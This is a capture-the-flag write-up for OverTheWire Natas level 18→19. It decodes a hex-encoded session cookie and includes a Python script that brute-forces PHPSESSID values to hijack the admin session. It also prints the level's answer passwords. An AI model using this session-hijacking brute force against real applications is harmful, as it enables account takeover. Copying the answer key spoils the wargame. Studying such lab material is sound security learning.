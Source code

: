 # Level 18 → Level 19

## Details
Username: `natas19`<br />
Password: `8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s`<br />
URL:      http://natas19.natas.labs.overthewire.org

## Solution
![](0.png)

So, let's try to see what the `PHPSESSID` is when the username is `UserName` and the password is `Password123`:

![](1.png)

![](2.png)

![](3.png)

So what is `3339372d557365724e616d65`? Let's say that after many challenges in reversing (for example, [microcorruption](https://github.com/SimchaTeich/Microcorruption)) I immediately recognize **hexadecimal characters**... (yes it's very strange). Let's see what this string means:

```python
print(bytes.fromhex('3339372d557365724e616d65'))
# Output: b'397-UserName'
```

We have now discovered the format, so we can immediately do a brute force similar to the previous challenge. We will of course remember that it is likely that the username will be `"admin"` and we will build the following code:

```python
from requests import get
from requests.auth import HTTPBasicAuth

# Current level details
natas19_username = "natas19"
natas19_password = "8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s"

# GET HTTP details
URL = "http://natas19.natas.labs.overthewire.org/?username=admin&password=admin"
AUTH = HTTPBasicAuth(natas19_username, natas19_password)
COOKIES = {'PHPSESSID': None}

res = None
for i in range(1, 640 + 1):
    COOKIES['PHPSESSID'] = bytes.hex(str(i).encode() + b'-admin')
    res = get(url=URL, auth=AUTH, cookies=COOKIES)
    if "Password" in res.text:
        print(f"admin PHPSESSID value is: {i}")
        break
    else:
        print(f"admin PHPSESSID value is NOT: {i}")

print(res.text)
```

Results:

![](4.png)

## Password for the next level:
```
guVaZ3ET35LbgbFMoaN5tFcYT1jEP7UH
```
